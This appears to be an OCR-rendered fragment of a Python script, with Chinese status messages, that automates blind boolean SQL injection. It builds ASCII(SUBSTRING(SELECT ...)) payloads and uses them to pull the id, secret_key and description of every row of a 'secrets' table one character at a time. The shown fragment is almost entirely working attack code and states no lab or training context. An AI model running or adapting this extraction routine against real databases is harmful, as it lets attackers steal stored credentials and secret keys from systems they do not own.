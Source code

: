 ```
            payload = f"ASCII(SUBSTRING((SELECT {column_name} FROM secrets LIMIT {row_index},1),{pos},1))={ascii_val}"
            if test_sqli(payload):
                field_value += chr(ascii_val)
                print(f"第{row_index+1}行{column_name}第{pos}个字符: {chr(ascii_val)}")
                break
        else:
            print(f"第{row_index+1}行{column_name}第{pos}个字符枚举失败")
            break
    
    return field_value

def main():
    print("开始自动化枚举secrets表内容...")
    
    # 获取行数
    row_count = get_row_count()
    if row_count == 0:
        print("secrets表为空")
        return
    
    # 枚举每行的数据
    columns = ["id", "secret_key", "description"]
    
    for row in range(row_count):
        print(f"\n=== 第{row+1}行数据 ===")
        row_data = {}
        
        for col in columns:
            value = get_field_value(row, col, row)
            row_data[col] = value
            print(f"{col}: {value}")
        
        print(f"完整第{row+1}行: {row_data}")
    
    print(f"\n=== secrets表完整内容 ===")
    for row in range(row_count):
        print(f"第{row+1}行:")
        for col in columns:
            value = get_field_value(row, col, row)
            print(f"  {col}: {value}")

if __name__ == "__main__":
    main()
```


